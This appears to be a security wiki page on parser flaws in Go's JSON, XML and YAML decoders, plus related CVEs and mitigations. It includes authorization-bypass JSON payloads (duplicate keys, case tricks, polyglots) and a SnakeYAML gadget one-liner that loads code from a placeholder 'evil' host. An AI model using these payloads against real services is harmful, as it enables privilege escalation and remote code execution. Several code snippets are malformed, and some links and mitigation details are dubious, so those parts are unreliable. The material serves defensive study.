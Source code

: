 # JSON, XML & Yaml Hacking & Issues


## Go JSON Decoder

The following issues were detected in the Go JSON although they could be present in other languages as well. These issues were published in [[https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/|**this blog post**]].

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.

### (Un)Marshaling Unexpected Data

The goal is to exploit structs that allow an attacker to read/write sensitive fields (e.g., `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
    Username string `json:"username,omitempty"
    Password string `json:"password,omitempty"
    IsAdmin  bool   `json:"-"
}
```
```
- Common Vulnerabilities

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
    Username string
}
```
```
Payload:
```json
{"Username": "admin"}
```
```
2. **Incorrect use of `-`**:
```go
type User struct {
    IsAdmin bool `json:"-,omitempty" // ❌ wrong
}
```
```
Payload:
```json
{"-": true}
```
```
✔️ Proper way to block field from being (un)marshaled:
```go
type User struct {
    IsAdmin bool `json:"-"
}
```
```

### Parser Differentials

The goal is to bypass authorization by exploiting how different parsers interpret the same payload differently like in:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks

**1. Duplicate Fields:**
Go's `encoding/json` takes the **last** field.

```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}), &req)
fmt.Println(req.Action) // AdminAction
```
```
Other parsers (e.g., Java’s Jackson) may take the **first**.

**2. Case Insensitivity:**
Go is case-insensitive:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}), &req)
// matches `Action field
```
```
Even Unicode tricks work:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}), &req)
```
```
**3. Cross-service mismatch:**
Imagine:
- Proxy written in Go
- AuthZ service written in Python

Attacker sends:
```json
{
  "action": "UserAction",
  "AcTiOn": "AdminAction"
}
```
```
- Python sees `UserAction`, allows it
- Go sees `AdminAction`, executes it

### Data Format Confusion (Polyglots)

The goal is to exploit systems that mix formats (JSON/XML/YAML) or fail open on parser errors like:
- **CVE-2020-16250**: HashiCorp Vault parsed JSON with an XML parser after STS returned JSON instead of XML.

Attacker controls:
- The `Accept: application/json` header
- Partial control of JSON body

Go’s XML parser parsed it **anyway** and trusted the injected identity.

- Crafted payload:
```json
{
  "action": "Action_1",
  "AcTiOn": "Action_2",
  "ignored": "<?xml version=\"1.0\"?>Action\_3"
}
```
```
Result:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Notable Parser Vulnerabilities (2023-2025)

> The following publicly-exploitable issues show that insecure parsing is a multi-language problem — not just a Go problem.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Affects: `org.yaml:snakeyaml` < **2.0** (used by Spring-Boot, Jenkins, etc.).
* Root cause: `new Constructor()` deserializes **arbitrary Java classes**, allowing gadget chains that culminate in remote-code execution.
* One-liner PoC (will open the calculator on vulnerable host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
```* Fix / Mitigation:
  1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
  2. On older versions, explicitly use `new Yaml(new SafeConstructor())`. 

### libyaml Double-Free (CVE-2024-35325)

* Affects: `libyaml` ≤0.2.5 (C library leveraged by many language bindings).
* Issue: Calling `yaml_event_delete()` twice leads to a double-free that attackers can turn into DoS or, in some scenarios, heap exploitation.
* Status: Upstream rejected as “API misuse”, but Linux distributions shipped patched **0.2.6** that null-frees the pointer defensively. 

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Affects: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* Bug: In `GenericReader::ParseNumber()` unchecked arithmetic lets attackers craft huge numeric literals that wrap around and corrupt the heap — ultimately enabling privilege-escalation when the resulting object graph is used for authorization decisions. 

---

### 🔐 Mitigations (Updated)

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ No fix in stdlib — validate with [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Case-insensitive match (Go)         | ❌ No fix — validate struct tags + pre-canonicalize input   |
| XML garbage data / XXE              | Use a hardened parser (`encoding/xml` + `DisallowDTD`)     |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Use SafeConstructor / upgrade to SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Upgrade to **0.2.6** or distro-patched release            |
| RapidJSON <patched commit           | Compile against latest RapidJSON (≥July 2024)              |

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0” 
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml) 

